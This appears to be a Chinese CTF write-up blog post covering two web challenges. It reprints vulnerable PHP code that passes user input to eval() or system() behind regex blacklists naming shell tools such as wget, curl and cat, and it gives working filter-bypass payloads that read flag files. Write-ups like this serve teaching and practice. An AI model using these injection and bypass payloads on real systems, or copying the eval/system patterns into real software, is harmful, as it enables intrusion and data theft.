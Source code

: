 ```yaml
---
layout:    post
title:     第二周
subtitle:  学习学习
date:      2021-07-26
author:    lll-yz
header-img: img/post-bg-coffee.jpg
catalog:    true
tags:
    - CTF
---
```


### web02

```PHP
 <?php
#-*-coding: utf-8 -*-
//flag in show_flag.php
if(isset($_POST['a'])){
    $a=$_POST['a'];
    if (!(preg_match("/[0-9]|\.|data|phar|glob|\*|system|shell_exec|shell|php|\`/i", $a))) {
        eval($a);
    }
}else{
    highlight_file(__FILE__);
}

?> 
```

用``?``去匹配：

```
a=passthru%28"cat ?????????????"%29%3B
```

[![WhpfV1.png](https://z3.ax1x.com/2021/07/26/WhpfV1.png)](https://imgtu.com/i/WhpfV1)

查看源码，得到：

```
<?php
error_reporting(0);
class FLAG {
    static function printflag()
    {
        include('flag.php');
        highlight_file('flag.php');
    }
}
if(isset($_GET['zz'])){
    $z=$_GET['zz'];
    if(@stripos($z,':')>1){
        die('hacker!');
    }
    @call_user_func($z);
}
```

可以采用数组的方式绕过对``:``的判断。

payload：``show_flag.php?zz[0]=FLAG&zz[1]=printflag``。

得到字符串，先HTML实体解码，再base64解码，得到flag。

### web05

进入后先随便get传参c一个数，得到：

```
flag is in flag.php ?c=1 <?php
echo "flag is in flag.php  ?c=";
$c=$_GET['c'];
echo "$c"."\n";
echo "\n";


if(!preg_match("/\{|\}|.*t.*a.*c|.*l.*s.*|.*p.*a.*s.*t.e.*|.*m.*v|\;|.*c.*a.*t.*|.*f.*l.*a.*g.*|[0-9]|\*|.*m.*o.*r.*e.*|.*w.*g.*e.*t.*|.*l.*e.*s.*s.*|.*h.*e.*a.*d.*|.*s.*o.*r.*t.*|.*t.*a.*i.*l.*|.*s.*e.*d.*|.*c.*u.*t.*|.*t.*a.*c.*|.*a.*w.*k.*|.*s.*t.*r.*i.*n.*g.*s.*|.*o.*d.*|.*c.*u.*r.*l.*|.*n.*l.*|.*s.*c.*p.*|.*r.*m.*|\`|\%|\x09|\x26|\>|\<|\||\*|\(|\)/i", $c)){
            system($c);
} else{
        highlight_file(__FILE__);
}

?>
```

发现过滤的很全面，但还是有漏掉的，使用``grep ????.php``去搜索文件，得到:

[![Wh9ooq.png](https://z3.ax1x.com/2021/07/26/Wh9ooq.png)](https://imgtu.com/i/Wh9ooq)

访问aGho.php:

```

<?php


if(isset($_GET['c'])){
        $c = $_GET['c'];
            if(!preg_match("/\`|\<|\>|\*|\"|\?|%|sess.*|eval|flag|system|php|cat|sort|shell|\.| |\'/i", $c)){
                    eval($c);
                    }
            
}else{
        highlight_file(__FILE__);
}




?>
```

先使用未过滤的函数查看当前文件：``aGho.php?c=passthru(ls);``

[![WhCCY6.png](https://z3.ax1x.com/2021/07/26/WhCCY6.png)](https://imgtu.com/i/WhCCY6)

得到文件，当时就没有想到。

之后确实是和一个无参获取一样。发现文件只有huhuhu.php没有访问过，可以猜测flag在huhuhu.php中，且其位置也是在倒数第二，所以构造payload：

```
aGho.php?c=highlight_file(next(array_reverse(scandir(current(localeconv())))));
```

获得flag。